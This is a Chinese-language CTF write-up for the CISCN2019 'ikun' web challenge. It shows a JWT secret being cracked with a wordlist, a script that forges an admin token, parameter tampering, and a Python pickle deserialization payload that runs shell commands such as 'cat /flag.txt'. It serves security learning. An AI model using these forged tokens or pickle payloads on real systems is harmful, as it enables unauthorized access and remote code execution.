# [CISCN2019 华北赛区 Day1 Web2]ikun

## 知识点

`JWT`

`pickle`

## 解题

进入题目首页

![1Kun 1](file:///G:/CTFWriteUp/buuctf/Web/img/16-1.png?lastModify=1708305010)

要求冲到`lv6`

翻了几页没看见，用`python`脚本找一下

```python
import requests

for i in range(1, 200):
    url = f"http://84eb6b56-3cf8-4b61-91fd-02bd6f875a03.node5.buuoj.cn:81/shop?page={i}"
    resp = requests.get(url)
    print(i, flush=True)
    if 'lv6.png' in resp.text:
        print(f"find -> {i}")
        break
```

运行结果为`180`

![1Kun 2](file:///G:/CTFWriteUp/buuctf/Web/img/16-2.png?lastModify=1708305010)

发现了`lv6`的购买链接，`burpsuite`抓包看看

![1Kun 3](file:///G:/CTFWriteUp/buuctf/Web/img/16-3.png?lastModify=1708305010)

发现下面的`discount`即为折扣值

修改成功跳转后发现要求`admin`才能登录

发现`JWT`有签名，尝试破解一下

使用`jwt_tool`的字典破解

```bash
python3 .\jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNjYyJ9.J2bFVzLD9m-41Jq8Z4J-FAB-8Kx04DqrvTcxQM521O4 -C -d .\top19576.txt
```

![Alt text](file:///G:/CTFWriteUp/buuctf/Web/img/16-6.png?lastModify=1708305010)

得到`secret`为`1Kun`

或者使用`jwtcrack`获取`secret`

![Alt text](file:///G:/CTFWriteUp/buuctf/Web/img/16-8.png?lastModify=1708305010)

`Cyberchef`解密结果

![Alt text](file:///G:/CTFWriteUp/buuctf/Web/img/16-7.png?lastModify=1708305010)

使用`python`生成`jwt`

```python
# coding=utf-8
import hmac
import hashlib
import base64

key = '1Kun'

header = '{"alg": "HS256","typ": "JWT"}'
payload = '{"username": "admin"}'

encodeHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodeHeader = str(encodeHBytes, "utf-8").rstrip("=")

encodePBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodePayload = str(encodePBytes, "utf-8").rstrip("=")

token = (encodeHeader + "." + encodePayload)


sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"), token.encode("utf-8"), hashlib.sha256).digest()).decode("UTF-8").rstrip("=")

print(token + "." + sig)
```

运行结果为`eyJhbGciOiAiSFMyNTYiLCJ0eXAiOiAiSldUIn0.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.iRc4KyWA0et3DmhK0nFu7aznKWxX6KuXJhisec_QUtY`

放入`Cookie`中可以发现用户名已经变为`admin`

![Alt text](file:///G:/CTFWriteUp/buuctf/Web/img/16-9.png?lastModify=1708305010)

再到`burpsuite`中进行购买`lv6`

购买的时候发现了隐藏信息

![Alt text](file:///G:/CTFWriteUp/buuctf/Web/img/16-11.png?lastModify=1708305010)

在下载的文件里发现了`pickle`反序列化，那么就可以利用`pickle`反序列化执行命令了

![Alt text](file:///G:/CTFWriteUp/buuctf/Web/img/16-12.png?lastModify=1708305010)

```python
import pickle
import urllib
import commands

class A(object):
    def __reduce__(self):
      # return (eval, ("__import__('os').system('ls')",))


        # return (commands.getoutput, ("ls /",))
        return (commands.getoutput, ("cat /flag.txt",))
 
a = A()
s = pickle.dumps(a)
print(urllib.quote(s))
```

`python2`运行后为

```
ccommands%0Agetoutput%0Ap0%0A%28S%27cat%20/flag.txt%27%0Ap1%0Atp2%0ARp3%0A.
```

![pickle](file:///G:/CTFWriteUp/buuctf/Web/img/16-13.png?lastModify=1708305010)

放到`burpsuite`的`become`参数即可

![pickle](file:///G:/CTFWriteUp/buuctf/Web/img/16-14.png?lastModify=1708305010)

